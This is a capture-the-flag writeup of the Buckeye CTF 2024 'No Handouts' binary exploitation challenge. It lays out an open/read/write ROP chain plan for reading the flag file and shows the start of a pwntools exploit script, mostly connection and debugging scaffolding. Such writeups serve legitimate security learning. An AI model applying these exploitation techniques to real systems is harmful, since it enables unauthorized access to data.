 ```yaml
---
title: Buckeye CTF 2024 
category: WRITEUP, CTF,
date: September 18th, 2024
description: Writeup of a few challenges from buckeye ctf
---
```



## No Handouts

At first glance this seems to be a simple libc
challenge with them providing us the leak. However, if we look at the remote 
configuration, there are no binaries in the 
system. This means that we can't run execve.


### Exploit Plan
That means that we'll have to do an open, read,
write rop chain. My plan was to use gets to 
read "/app/flag.txt" into a writeable section of the
binary. Then call open on the writable data and then
read. Once the flag has been read in we can just
call puts on the writable flag 


```python
#! /usr/bin/python
from pwn import *

context.update(
        arch="amd64",
        endian="little", log_level="debug", os="linux",
        terminal=["alacritty","-e"]
)

to = 2
ru = lambda p,s: p.recvuntil(s, timeout=to)
rl = lambda p: p.recvline()
sla = lambda p,a,b: p.sendlineafter(a, b, timeout=to)
sl = lambda p,a: p.sendline(a)
up = lambda b: int.from_bytes(b, byteorder="little")

SERVICE = "challs.pwnoh.io"
PORT = 13371


def start(binary):

    gs = '''
        set context-sections stack regs disasm
        set show-compact-regs on
        set resolve-heap-via-heuristic on
        set follow-fork-mode parent
    '''

    if args.GDB:
        return gdb.debug(binary, gdbscript=gs)
    elif args.REMOTE:
        return remote(SERVICE,PORT)
    else:
        return process(binary)


```